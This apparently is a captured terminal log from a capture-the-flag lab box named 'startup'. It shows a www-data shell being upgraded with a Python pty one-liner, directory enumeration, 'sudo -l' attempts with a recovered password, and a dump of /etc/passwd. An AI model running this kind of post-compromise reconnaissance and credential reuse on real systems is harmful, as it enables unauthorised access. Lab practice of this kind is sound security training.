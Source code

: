 ```
drwx------   3 root     root      4096 Oct  2 17:24 root
drwxr-xr-x  25 root     root       960 Oct  2 17:23 run
drwxr-xr-x   2 root     root      4096 Sep 25 08:22 sbin
drwxr-xr-x   2 root     root      4096 Oct  2 17:20 snap
drwxr-xr-x   3 root     root      4096 Oct  2 17:23 srv
dr-xr-xr-x  13 root     root         0 Oct  2 17:19 sys
drwxrwxrwt   7 root     root      4096 Oct  2 17:40 tmp
drwxr-xr-x  10 root     root      4096 Sep 25 08:09 usr
drwxr-xr-x   1 vagrant  vagrant    118 Oct  1 19:49 vagrant
drwxr-xr-x  14 root     root      4096 Oct  2 17:23 var
lrwxrwxrwx   1 root     root        30 Sep 25 08:12 vmlinuz -> boot/vmlinuz-4.4.0-190-generic
lrwxrwxrwx   1 root     root        30 Sep 25 08:12 vmlinuz.old -> boot/vmlinuz-4.4.0-190-generic
$ whoami
www-data
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@startup:/$ cd
cd
bash: cd: HOME not set
www-data@startup:/$ ls
ls
bin   etc	  initrd.img.old  media  recipe.txt  snap  usr	    vmlinuz.old
boot  home	  lib		  mnt	 root	     srv   vagrant
data  incidents   lib64		  opt	 run	     sys   var
dev   initrd.img  lost+found	  proc	 sbin	     tmp   vmlinuz
www-data@startup:/$ cd home
cd home
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ ls
ls
lennie
www-data@startup:/home$ cd lennie
cd lennie
bash: cd: lennie: Permission denied
www-data@startup:/home$ sudo -l
sudo -l
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

Sorry, try again.
[sudo] password for www-data: 

Sorry, try again.
[sudo] password for www-data: c4ntg3t3n0ughsp1c3

sudo: 3 incorrect password attempts
www-data@startup:/home$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```